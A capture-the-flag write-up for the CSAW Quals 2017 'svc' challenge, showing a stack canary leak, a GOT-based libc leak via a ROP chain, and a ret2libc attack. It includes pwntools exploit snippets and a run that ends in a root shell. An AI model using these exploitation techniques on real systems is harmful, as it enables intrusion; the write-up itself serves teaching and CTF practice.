 # CSAW Quals 2017 svc

Looking over ```checksec```:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

In this challenge we are given a ```libc``` file. Sounds like some return oriented programming!

Running the binary and decompiling it we can see that there are 3 options:
- ```FEED SVC```, which takes our input
- ```REVIEW THE FOOD```, which outputs to the screen our input with a call to ```puts()```
- ```MINE MINERALS```, which exits the program

We can make a good guess and say that we will have to have an information leak in our program. We also notice that there is a ```canary``` on the stack. We will overflow just enough so that when we select ```REVIEW THE FOOD``` it will leak it for us.

Since this is a 64bit binary, our ```canary``` will also be 64 bits - 8 bytes. We know that the lowest byte in memory of it will be a NULL byte, as to stop string functions like ```puts()```, therefore we will have to overflow it as well in order to leak the other 7 bytes.

Finally, we need a libc address leak. Since the only way we can leak stuff is with ```puts()```, we will have to change the argument that is loaded in ```rdi``` to a pointer to a libc address. We can use a GOT address for this. With these in mind, we will construct a small ```ropchain``` that will overwrite ```ret```:

```python
	r.sendline("1")
	r.send("A" * 168 + canary + "B" * 8 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.symbols['puts']) + p64(function_addr))
	r.sendline("3")
```

```function_addr``` is the address to the start of the "main" function. After we leak it we go back into the program and use our freshly leaked bytes to construct a ret2libc attack.

```python
    libc.address = leak - libc.symbols['puts']
    system = libc.symbols['system']
    binsh = next(libc.search('/bin/sh\x00'))

    r.sendline("1")
    r.send("A" * 168 + canary + "B" * 8 + p64(pop_rdi) + p64(binsh) + p64(system))
    r.sendline("3")
```

```bash
[root@pwn:~/csawquals17_svc]$ python solve.py LOCAL
[+] Starting local process '/root/code/CTF-Writeups/csawquals17_svc/ld-2.23.so': pid 2051
[*] canary: 004b88fc629067e7
[*] leak: 0x7f5772d8b690
[*] Switching to interactive mode

-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>-------------------------
[*]SCV IS ALWAYS HUNGRY.....
-------------------------
[*]GIVE HIM SOME FOOD.......
-------------------------
>>-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>[*]BYE ~ TIME TO MINE MIENRALS...
$ whoami
root
```
